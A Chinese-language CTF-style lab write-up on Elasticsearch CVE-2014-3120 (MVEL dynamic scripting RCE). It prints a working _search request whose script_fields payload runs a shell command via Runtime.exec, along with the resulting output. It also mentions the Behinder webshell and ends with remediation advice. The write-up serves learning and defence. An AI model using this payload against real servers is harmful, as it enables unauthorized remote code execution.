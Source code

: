 # elasticsearch-cve_2014_3120

今天练习一个古老的CVE，关于分布式检索与分析引擎ElasticSearch，也是我这段时间朝夕相处的ELK组件之一。

## 前置知识

### 什么是脚本引擎

所谓的脚本引擎，是为了增强程序的可配置性。怎么理解这个概念呢？首先让我们回顾一下程序的组成，程序 = 数据结构 + 算法。其中，算法就是我们对机器“说的话”，那机器怎么知道我们说话的含义呢？这就需要一个“翻译官”的角色，让我们说所的话（逻辑算法）能让机器明白。这之间，当然还需要好几个翻译官配合。那我们的脚本引擎所处的位置就是：人——程序——脚本引擎——......——机器。

可以看到，脚本引擎不是必须的，不是每个程序都需要一个留一个口子让人进去说话，但对于一个需要实现复杂功能的程序/系统来说，脚本引擎则起到了一个增强性的功能，让程序更加灵活，能做更多的配置。



#### ES Scripting的历史

| 版本                  | 使用的脚本引擎 |
| :-------------------- | :------------- |
| < Elasticsearch 1.4   | MVEL           |
| < Elasticsearch 5.0   | Groovy         |
| ‘>= Elasticsearch 5.0 | painless       |

本篇中我们浮现的漏洞就位于< ES 1.4版本，用的是MVEL脚本引擎，这个脚本赢取最大的安全问题就是——几乎没有任何安全机制。



## 利用过程

### 信息搜集

首先，我们模拟传统的渗透过程，进行信息搜集（此处省略），扫描发现端口服务，发现ES服务，访问后可以看到：

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200824233200.png)

此ES版本低于1.4，可以直接利用MVEL脚本引擎无安全防护的漏洞，进行远程代码执行，借助的接口或者说是功能入口是`script_fields` - `command` - `script`。



### 漏洞利用

首先要明确一下漏洞利用的过程：

-   由于脚本引擎没有安全机制，所以我们发送的恶意代码都可以执行
-   我们可以通过`_search`方法（ES的一种API）传入script代码
-   ES会动态执行传入的script代码，从而使机子运行后门



首先，`_search`方法会显示当前ES的记录，如果没有记录，则会报错。所以对一个空的ES我们需要用`POST`或`PUT`方法先插入数据：

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200825002601.png)

这里我用Postman发包，看到请求方法`POST`，在ES中想插入数据可以用这个请求方法，请求链接为`xxx/site/test?pretty=true`，其中site是我命名的index（索引），test为我创建的type（类型）。Body是我发送的JSON格式数据，创建一条字段名为name，值为test的记录。这些都是ES的概念，不清楚的同学可以查看：[Mastering Elasticsearch(中文版)](https://doc.yonyoucloud.com/doc/mastering-elasticsearch/chapter-1/121_README.html)。

接下来，直接上我们的神器Behinder看看

![](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/20200825004819.png)

果然是报错了，大马的命令更复杂，容易产生问题。我们可以根据这个情况魔改一下，参考：[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247485811&idx=1&sn=dfe68ca403b7009e2f41e622dd2b690f)、[冰蝎，从入门到魔改（续）](https://www.anquanke.com/post/id/212739)。



### 获得Flag

今天比较晚了，先直接使用JAVA代码读取`/tmp`路径下的flag：

```java
import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();
```

完整请求包为：

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

响应信息为：

```json
{
  "took" : 10,
  "timed_out" : false,
  "_shards" : {
    "total" : 5,
    "successful" : 5,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 1.0,
    "hits" : [ {
      "_index" : "site",
      "_type" : "test",
      "_id" : "18Mqj5DuTN22Eb8WO-JzGw",
      "_score" : 1.0,
      "fields" : {
        "command" : [ "flag-{bmh0c5431ab-e4ec-4195-9818-94b20de3788f}\nhsperfdata_root\n" ]
      }
    } ]
  }
}

```

获得Flag。



## 修复

-   升级版本
-   设置 `script.disable_dynamic = true`，官方已在1.2版本中将 true 设置为默认值



## 总结

这是一个由于脚本引擎未做安全机制防护所导致的RCE，现在比较少见了。但是也可以看出，在程序中，有动态代码执行、脚本引擎的地方往往是比较危险的，在开发过程中需要格外注意。在蓝队的检测过程中，对于这些脚本引擎执行的相关数据需要额外注意。



## TODO

-   看冰蝎的入门到魔改：[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247485811&idx=1&sn=dfe68ca403b7009e2f41e622dd2b690f)、[冰蝎，从入门到魔改（续）](https://www.anquanke.com/post/id/212739)


